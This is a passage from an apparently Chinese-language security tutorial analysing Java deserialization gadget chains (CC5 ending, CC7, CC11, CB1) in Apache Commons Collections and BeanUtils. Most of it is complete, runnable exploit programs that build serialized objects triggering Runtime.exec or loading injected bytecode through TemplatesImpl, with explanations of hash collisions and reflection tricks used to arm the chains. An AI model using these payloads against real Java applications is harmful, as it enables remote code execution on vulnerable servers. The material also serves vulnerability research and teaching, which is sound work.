    } else if (valObj instanceof String) {  
        val= valObj;  
    } else if (System.getSecurityManager() == null  
            || valObj instanceof Long  
            || valObj instanceof Integer  
            || valObj instanceof Float  
            || valObj instanceof Double  
            || valObj instanceof Byte  
            || valObj instanceof Short  
            || valObj instanceof Boolean) {  
        val = valObj.toString();  
    } else { // the serialized object is from a version without JDK-8019292 fix  
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();  
    }  
}
```

可以看到相当于触发了`val`的`toString`方法.然而这个`val`不能通过构造方法去赋值.

```
public BadAttributeValueExpException (Object val) {  
    this.val = val == null ? null : val.toString();  
}
```

否则会在构造方法处直接触发`toString`,应该通过反射去修改.  
写成了payload

```
package org.example;  
  
import java.io.*;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.map.LazyMap;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
  
import javax.management.BadAttributeValueExpException;  
import java.lang.reflect.*;  
import java.util.HashMap;  
import java.util.Map;  
  
public class Main {  
    public static void main(String[] args) throws Exception {  
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);  
  
        String MethodName1 = "getMethod";  
        Class[] ParmaType1 = {String.class, Class[].class};  
        Object[] Parma1 = {"getRuntime", null};  
        InvokerTransformer it1 = new InvokerTransformer(MethodName1, ParmaType1, Parma1);  
  
        String MethodName2 = "invoke";  
        Class[] ParmaType2 = {Object.class, Object[].class};  
        Object[] Parma2 = {null, null};  
        InvokerTransformer it2 = new InvokerTransformer(MethodName2, ParmaType2, Parma2);  
  
        String MethodName3 = "exec";  
        Class[] ParmaType3 = {String.class};  
        Object[] Parma3 = {"calc"};  
        InvokerTransformer it3 = new InvokerTransformer(MethodName3, ParmaType3, Parma3);  
  
        Transformer transformers[] = new Transformer[]{constantTransformer, it1, it2, it3};  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);  
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, null);  
  
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);  
        Class<?> clazz = badAttributeValueExpException.getClass();  
        Field val = clazz.getDeclaredField("val");  
        val.setAccessible(true);  
        val.set(badAttributeValueExpException, tiedMapEntry);  
  
        serial(badAttributeValueExpException);  
        unserial();  
  
    }  
  
    public static void serial(Object obj) throws Exception {  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));  
        out.writeObject(obj);  
    }  
  
    public static void unserial() throws Exception {  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));  
        in.readObject();  
    }  
}
```

归纳总结得出利用链:

```
Gadget chain:
ObjectInputStream.readObject()
    BadAttributeValueExpException.readObject()
        TiedMapEntry.toString()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Class.getMethod()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.getRuntime()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
```

# CC7

复现环境:common-collections版本<=3.2.1,java版本随意.cc7就是cc6换了一个出口,整体的逻辑没有太大的变化.在`Lazymap`之前的还那样,我们从如何触发`Lazymap`的`get`方法开始看起.  
#AbstractMap  
看他的equals方法

```
public boolean equals(Object o) {  
    if (o == this)  
        return true;  
  
    if (!(o instanceof Map))  
        return false;  
    Map<?,?> m = (Map<?,?>) o;  
    if (m.size() != size())  
        return false;  
  
    try {  
        Iterator<Entry<K,V>> i = entrySet().iterator();  
        while (i.hasNext()) {  
            Entry<K,V> e = i.next();  
            K key = e.getKey();  
            V value = e.getValue();  
            if (value == null) {  
                if (!(m.get(key)==null && m.containsKey(key)))  
                    return false;  
            } else {  
                if (!value.equals(m.get(key)))  
                    return false;  
            }  
        }  
    } catch (ClassCastException unused) {  
        return false;  
    } catch (NullPointerException unused) {  
        return false;  
    }  
  
    return true;  
}
```

看到了`m.get(key)`  
#AbstractMapDecorator  
同样是看他的equals方法

```
public boolean equals(Object object) {  
    return object == this ? true : this.map.equals(object);  
}
```

可以用来触发`AbstractMap`的`equals`方法.  
然而这两个类都是抽象类,不能够被实例化,因此在实例化的时候都是实例化的`LazyMap`类.  
#Hashtable  
看他的`reconstitutionPut`方法

```
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)  
    throws StreamCorruptedException  
{  
    if (value == null) {  
        throw new java.io.StreamCorruptedException();  
    }  
    // Makes sure the key is not already in the hashtable.  
    // This should not happen in deserialized version.    
    int hash = key.hashCode();  
    int index = (hash & 0x7FFFFFFF) % tab.length;  
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {  
        if ((e.hash == hash) && e.key.equals(key)) {  
            throw new java.io.StreamCorruptedException();  
        }  
    }  
    // Creates the new entry.  
    @SuppressWarnings("unchecked")  
        Entry<K,V> e = (Entry<K,V>)tab[index];  
    tab[index] = new Entry<>(hash, key, value, e);  
    count++;  
}
```

为什么要使用这个方法?因为`reconstitutionPut`的作用是在对`hashTable`进行反序列化的时候,对类中的键值对进行恢复.来看`readObject`方法

```
private void readObject(java.io.ObjectInputStream s)  
     throws IOException, ClassNotFoundException  
{  
    ObjectInputStream.GetField fields = s.readFields();  
  
    // Read and validate loadFactor (ignore threshold - it will be re-computed)  
    float lf = fields.get("loadFactor", 0.75f);  
    if (lf <= 0 || Float.isNaN(lf))  
        throw new StreamCorruptedException("Illegal load factor: " + lf);  
    lf = Math.min(Math.max(0.25f, lf), 4.0f);  
  
    // Read the original length of the array and number of elements  
    int origlength = s.readInt();  
    int elements = s.readInt();  
  
    // Validate # of elements  
    if (elements < 0)  
        throw new StreamCorruptedException("Illegal # of Elements: " + elements);  
  
    // Clamp original length to be more than elements / loadFactor  
    // (this is the invariant enforced with auto-growth)    origlength = Math.max(origlength, (int)(elements / lf) + 1);  
  
    // Compute new length with a bit of room 5% + 3 to grow but  
    // no larger than the clamped original length.  Make the length    // odd if it's large enough, this helps distribute the entries.    // Guard against the length ending up zero, that's not valid.    int length = (int)((elements + elements / 20) / lf) + 3;  
    if (length > elements && (length & 1) == 0)  
        length--;  
    length = Math.min(length, origlength);  
  
    if (length < 0) { // overflow  
        length = origlength;  
    }  
  
    // Check Map.Entry[].class since it's the nearest public type to  
    // what we're actually creating.    SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, length);  
    Hashtable.UnsafeHolder.putLoadFactor(this, lf);  
    table = new Entry<?,?>[length];  
    threshold = (int)Math.min(length * lf, MAX_ARRAY_SIZE + 1);  
    count = 0;  
  
    // Read the number of elements and then all the key/value objects  
    for (; elements > 0; elements--) {  
        @SuppressWarnings("unchecked")  
            K key = (K)s.readObject();  
        @SuppressWarnings("unchecked")  
            V value = (V)s.readObject();  
        // sync is eliminated for performance  
        reconstitutionPut(table, key, value);  
    }  
}
```

前面那些都不用看,就看最后调用了`reconstitutionPut`即可.这条利用链的触发方式比较直观,就是在反序列化时对`hashTable`中的键值对进行恢复时,出现了比较,因此调用了equals方法.我们写出脚本

```
package org.example;  
  
import java.io.*;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.lang.reflect.*;  
import java.util.HashMap;  
import java.util.Hashtable;  
import java.util.Map;  
  
public class Main {  
    public static void main(String[] args) throws Exception {  
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);  
  
        String MethodName1 = "getMethod";  
        Class[] ParmaType1 = {String.class, Class[].class};  
        Object[] Parma1 = {"getRuntime", null};  
        InvokerTransformer it1 = new InvokerTransformer(MethodName1, ParmaType1, Parma1);  
  
        String MethodName2 = "invoke";  
        Class[] ParmaType2 = {Object.class, Object[].class};  
        Object[] Parma2 = {null, null};  
        InvokerTransformer it2 = new InvokerTransformer(MethodName2, ParmaType2, Parma2);  
  
        String MethodName3 = "exec";  
        Class[] ParmaType3 = {String.class};  
        Object[] Parma3 = {"calc"};  
        InvokerTransformer it3 = new InvokerTransformer(MethodName3, ParmaType3, Parma3);  
  
        Transformer transformers[] = new Transformer[]{constantTransformer, it1, it2, it3};  
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});  
  
        Map lazymap1 = LazyMap.decorate(new HashMap(), chainedTransformer);  
        Map lazymap2 = LazyMap.decorate(new HashMap(), chainedTransformer);  
        lazymap1.put("yy", 1);  
        lazymap2.put("zZ",1);  
  
        Hashtable hashtable = new Hashtable<>();  
        hashtable.put(lazymap1, 1);  
        hashtable.put(lazymap2, 2);  
  
        Class clazz = chainedTransformer.getClass();  
        Field field = clazz.getDeclaredField("iTransformers");  
        field.setAccessible(true);  
        field.set(chainedTransformer, transformers);  
  
        serial(hashtable);  
        unserial();  
  
    }  
  
    public static void serial(Object obj) throws Exception {  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));  
        out.writeObject(obj);  
    }  
  
    public static void unserial() throws Exception {  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));  
        in.readObject();  
    }  
}
```

首先解释一下为什么给`LazyMap`插入的值必须是yy和zZ.  
在`reconstitutionPut`方法中执行`equals`的条件为

```
 int hash = key.hashCode();  
    int index = (hash & 0x7FFFFFFF) % tab.length;  
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {  
        if ((e.hash == hash) && e.key.equals(key)) {  
            throw new java.io.StreamCorruptedException();  
        }  
    }  
```

必须要满足`e.hash == hash`才可以,而这两个哈希是由两个键的值生成的,因此这两个键必须存在哈希碰撞.  
再解释一下`ChainedTransformers`中的`iTransformers`为什么要通过反射去进行修改.这个比较类似于cc6那里的问题.

```
public synchronized V put(K key, V value) {  
    // Make sure the value is not null  
    if (value == null) {  
        throw new NullPointerException();  
    }  
  
    // Makes sure the key is not already in the hashtable.  
    Entry<?,?> tab[] = table;  
    int hash = key.hashCode();  
    int index = (hash & 0x7FFFFFFF) % tab.length;  
    @SuppressWarnings("unchecked")  
    Entry<K,V> entry = (Entry<K,V>)tab[index];  
    for(; entry != null ; entry = entry.next) {  
        if ((entry.hash == hash) && entry.key.equals(key)) {  
            V old = entry.value;  
            entry.value = value;  
            return old;  
        }  
    }  
  
    addEntry(hash, key, value, index);  
    return null;  
}
```

我们可以看到在使用`hashTable`进行插值的时候里面存在这样一句`int hash = key.hashCode();`,就是问题所在.此时的`key`实际是一个`LazyMap`的实例,那么插值的时候就会触发`LazyMap`里的`HashMap`的`hashCode`方法,沿着cc6的那条链子一路触发下去,从而调用`get`方法提前执行命令.因此需要通过反射去进行修改.  
然而我们运行程序,发现并没有像预期的那样弹出计算器,研究发现问题出在这里.  
  
这个问题和cc6出现的那个也比较的类似,在`hashTable`进行插值的时候,如果之前里面有东西,会去进行一次比较来决定顺序,从而触发get方法.在序列化的时候,这里正确触发了`transform`方法,但是给`LazyMap2`插入了一个`yy`.  
  
那么在反序列化的时候,就不能正确的触发`transform`方法,而是直接去执行else分支,链子断了.因此应该在最后溢出`lazyMap2`的yy.  
最终脚本如下:

```
package org.example;  
  
import java.io.*;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.lang.reflect.*;  
import java.util.HashMap;  
import java.util.Hashtable;  
import java.util.Map;  
  
public class Main {  
    public static void main(String[] args) throws Exception {  
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);  
  
        String MethodName1 = "getMethod";  
        Class[] ParmaType1 = {String.class, Class[].class};  
        Object[] Parma1 = {"getRuntime", null};  
        InvokerTransformer it1 = new InvokerTransformer(MethodName1, ParmaType1, Parma1);  
  
        String MethodName2 = "invoke";  
        Class[] ParmaType2 = {Object.class, Object[].class};  
        Object[] Parma2 = {null, null};  
        InvokerTransformer it2 = new InvokerTransformer(MethodName2, ParmaType2, Parma2);  
  
        String MethodName3 = "exec";  
        Class[] ParmaType3 = {String.class};  
        Object[] Parma3 = {"calc"};  
        InvokerTransformer it3 = new InvokerTransformer(MethodName3, ParmaType3, Parma3);  
  
        Transformer transformers[] = new Transformer[]{constantTransformer, it1, it2, it3};  
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});  
  
        Map lazymap1 = LazyMap.decorate(new HashMap(), chainedTransformer);  
        Map lazymap2 = LazyMap.decorate(new HashMap(), chainedTransformer);  
        lazymap1.put("yy", 1);  
        lazymap2.put("zZ",1);  
  
        Hashtable hashtable = new Hashtable<>();  
        hashtable.put(lazymap1, 1);  
        hashtable.put(lazymap2, 2);  
  
        Class clazz = chainedTransformer.getClass();  
        Field field = clazz.getDeclaredField("iTransformers");  
        field.setAccessible(true);  
        field.set(chainedTransformer, transformers);  
  
        lazymap2.remove("yy");  
  
        serial(hashtable);  
        unserial();  
  
    }  
  
    public static void serial(Object obj) throws Exception {  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));  
        out.writeObject(obj);  
    }  
  
    public static void unserial() throws Exception {  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));  
        in.readObject();  
    }  
}
```

归纳得出反序列化的链子如下

```
Gadget chain:
ObjectInputStream.readObject()
    HashTable.readObject()
        HashTable.reconstitutionPut()
            AbstractMapDecorator.equals()
                AbstractMap.equals()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

# CC11

cc11就是对我们调试过的cc3中出口为`LazyMap`并且没有绕过`InvokerTransformer`的版本进行修改,使其不出现非javase中的数组.换句话说就是绕过了`ChainedTransformer`  
直接来看exp

```
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

import java.io.*;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.ExceptionPredicate;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesimpl = new TemplatesImpl();

        Class<?> clazz = templatesimpl.getClass();
        Field field = clazz.getDeclaredField("_name");
        field.setAccessible(true);
        field.set(templatesimpl, "test");

        Field field2 = clazz.getDeclaredField("_bytecodes");
        field2.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));
        byte[][] codes = {code};
        field2.set(templatesimpl, codes);

        Field field3 = clazz.getDeclaredField("_tfactory");
        field3.setAccessible(true);
        field3.set(templatesimpl, new TransformerFactoryImpl());

        InvokerTransformer it = new InvokerTransformer("newTransformer", null, null);

        Map lazymap = LazyMap.decorate(new HashMap(), it);//此处进行修改
        TiedMapEntry tiedMapEntry = new TiedMapEntry(LazyMap.decorate(new HashMap(), new ConstantTransformer(null)), templatesimpl);//此处进行修改

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, null);

        Class clazz1 = TiedMapEntry.class;
        Field field1 = clazz1.getDeclaredField("map");
        field1.setAccessible(true);
        field1.set(tiedMapEntry, lazymap);

        serial(hashMap);
        unserial();
    }

    public static void serial(Object obj) throws Exception {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));
        out.writeObject(obj);
    }

    public static void unserial() throws Exception {
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));
        in.readObject();
    }
}
```

看了一下,和网上的版本不太一样.利用链和cc3一样,没啥可说的.

# CB1

适用于`common-BeanUtils`版本1.9.2及以前.首先我们来看一看`common-BeanUtils`中提供的`PropertyUtils.getProperty`方法,这个方法是cb1链的核心.  
Person.java

```
package CB;

public class Person {
    private String name;
    private int age;

    public Person(String name,int age){
        this.name = name;
        this.age = age;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
}
```

Bean.java

```
package CB;

import org.apache.commons.beanutils.PropertyUtils;

public class Bean {
    public static void main(String[] args) throws Exception {
        Person person = new Person("cike_y",18);
        System.out.println(PropertyUtils.getProperty(person,"age"));
    }
}
```

可以看到,`PropertyUtils.getProperty`可以自动调用属性的私有方法来返回属性的值.个人理解是这种用法有利于去实现运行时多态而设计的.  
cb1链是在cc2链的基础上去改的,因此可以对比着去看.  
#TemplatesImpl  
首先来看这个`getOutputProteries`方法.

```
public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```

可以看到他调用了`newTransformer`方法,也就是我们之前找的`TemplatesImpl`的出口.  
#BeanComparator  
类比cc2中使用的`TransfromingComparator`类的`compare`方法,我们来看这个类的compare方法.

```
public int compare(T o1, T o2) {
        if (this.property == null) {
            return this.internalCompare(o1, o2);
        } else {
            try {
                Object value1 = PropertyUtils.getProperty(o1, this.property);
                Object value2 = PropertyUtils.getProperty(o2, this.property);
                return this.internalCompare(value1, value2);
            } catch (IllegalAccessException var5) {
                IllegalAccessException iae = var5;
                throw new RuntimeException("IllegalAccessException: " + iae.toString());
            } catch (InvocationTargetException var6) {
                InvocationTargetException ite = var6;
                throw new RuntimeException("InvocationTargetException: " + ite.toString());
            } catch (NoSuchMethodException var7) {
                NoSuchMethodException nsme = var7;
                throw new RuntimeException("NoSuchMethodException: " + nsme.toString());
            }
        }
    }
```

这里调用了`getProperty`方法.所以如果我们设置o2是一个恶意的`TemplatesImpl`对象,而`this.property`为`outputProperties`,那么就可以衔接上cc2的结尾.那么如何调用这个compare方法呢,可以继续使用cc2的老办法,使用`PriorityQueue`去实现.  
#PriorityQueue

```
private void siftDownUsingComparator(int k, E x) {
        int half = size >>> 1;
        while (k < half) {
            int child = (k << 1) + 1;
            Object c = queue[child];
            int right = child + 1;
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
                break;
            queue[k] = c;
            k = child;
        }
        queue[k] = x;
    }
```

还记得我们的cc2中分析过,这个compare方法传递给o2的是queue这个列表的第一个参数.在cc2中我们将这个参数设置为`TrAXFilter.class`,而在这里我们将其设为恶意的`TemplatesImpl`实例就行.因此得到了exp如下.

```
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.PriorityQueue;

public class Main {
    public static void main(String[] args) throws Exception{
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cb1\target\classes\org\example\Test.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "test");
        setFieldValue(templates, "_bytecodes", new byte[][] {code});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator beanComparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(beanComparator);

        setFieldValue(beanComparator, "property", "outputProperties");
        setFieldValue(queue, "size", 2);
        setFieldValue(queue, "queue", new Object[]{templates, null});

        serialize(queue);
        unserialize("ser.bin");
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos2 = new ObjectOutputStream(bos);
        oos2.writeObject(obj);
        byte[] buf = bos.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(buf));
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

总结得出利用链:

```
Gadget chain:
PriorityQueue.readObject()
    PriorityQueue.heapify()  
        PriorityQueue.siftDown()
            PriorityQueue.siftDownUsingComparator()
                BeanComparator.compare()
                    TemplatesImpl.getOutputProperties()
                        TemplatesImpl.newTransformer()
                            TemplatesImpl.getTransletInstance()
                                TemplatesImpl.defineTransletClasses()
                                    TemplatesImpl.defineClass()
```

# 总结

经典老链，每看常新吧！还有一些关于绕过TemplatesImpl限制的打法没说，读者可以自行补充。
